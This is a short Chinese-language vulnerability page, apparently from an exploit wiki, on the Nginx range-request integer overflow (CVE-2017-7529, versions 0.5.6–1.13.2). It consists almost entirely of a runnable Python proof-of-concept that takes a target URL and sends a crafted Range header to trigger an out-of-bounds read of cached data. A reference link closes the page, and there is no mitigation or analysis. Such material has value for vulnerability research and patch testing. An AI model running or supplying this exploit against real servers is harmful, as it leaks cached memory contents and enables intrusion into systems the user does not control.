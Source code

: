 <languages />

影響版本
--------

    Nginx version 0.5.6 - 1.13.2

POC
---

    #!/usr/bin/env python
    import sys
    import requests

    if len(sys.argv) < 2:
        print("%s url" % (sys.argv[0]))
        print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
        sys.exit()

    headers = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
    }
    offset = 605
    url = sys.argv[1]
    file_len = len(requests.get(url, headers=headers).content)
    n = file_len + offset
    headers['Range'] = "bytes=-%d,-%d" % (
        n, 0x8000000000000000 - n)

    r = requests.get(url, headers=headers)

參考
----

<http://wiki.peiqi.tech/PeiQi_Wiki/Web%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%BC%8F%E6%B4%9E/Nginx/Nginx%E8%B6%8A%E7%95%8C%E8%AF%BB%E5%8F%96%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E%20CVE-2017-7529.html>